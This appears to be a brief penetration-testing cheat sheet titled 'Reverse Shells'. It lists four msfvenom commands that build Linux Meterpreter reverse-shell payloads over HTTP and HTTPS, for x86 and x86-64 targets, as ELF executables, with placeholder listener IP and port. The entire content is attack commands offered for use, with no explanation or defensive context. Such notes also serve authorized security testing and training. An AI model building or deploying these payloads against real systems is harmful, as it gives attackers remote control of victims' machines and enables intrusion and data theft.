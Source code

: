 # Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f elf -o met-x86`

`$ msfvenom -p linux/x86/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f elf -o met-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f elf -o met-x64`

`$ msfvenom -p linux/x64/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f elf -o met-x64`